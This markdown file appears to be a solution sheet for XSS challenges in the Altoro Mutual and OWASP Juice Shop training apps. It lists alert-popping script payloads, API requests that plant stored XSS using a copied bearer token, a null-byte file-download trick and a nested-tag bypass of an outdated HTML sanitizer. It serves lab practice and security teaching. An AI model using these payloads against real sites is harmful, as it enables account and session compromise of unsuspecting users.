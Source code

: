 # XSS

## Altoro Mutual
#### Reflective XSS
* Search for `<svg/onload=alert(1)>`

## Juice Shop

### Perform a reflected XSS attack with <script>alert("XSS")</script>.
* Track Orders
### Perform a DOM XSS attack with <script>alert("XSS")</script>.	
* Search
#### Perform a persisted XSS attack with <script>alert("XSS")</script> bypassing a client-side security mechanism.
* Submit a POST request to http://localhost:3000/api/Users with
* Content-Type: application/json

* Post Params
  * {"email": "<script>alert(\"XSS\")</script>", "password": "anything"}
  
#### Perform a persisted XSS attack with <script>alert("XSS")</script> without using the frontend application at all.	

* Be authenticated
* Copy your Authorization header from an HTTP request submitted via browser.
* Submit a POST request to http://localhost:3000/api/Products with
* {"name": "XSS Juice", "description": "<script>alert(\"XSS\")</script>", "price": 23.99} as body,
* Content-Type: application/json
* Bearer ? as Authorization header, replacing the ? with the token you copied from the browser.

#### Perform a persisted XSS attack with <script>alert("XSS")</script> bypassing a server-side security mechanism.
* Download http://localhost:3000/ftp/package.json.bak%2500.md
* change to package.json
* run dependency-check against the package.json
* sanitize:1.4.2 has a xss vuln. https://github.com/punkave/sanitize-html/issues/29
* Visit http://localhost:3000/#/contact.
* Enter <<script>XSS</script>script>alert("XSS")<</script>/script> as Comment
* Choose a rating and click Submit
* Visit http://localhost:3000/#/about for a first "XSS" alert (from the Customer Feedback slideshow)




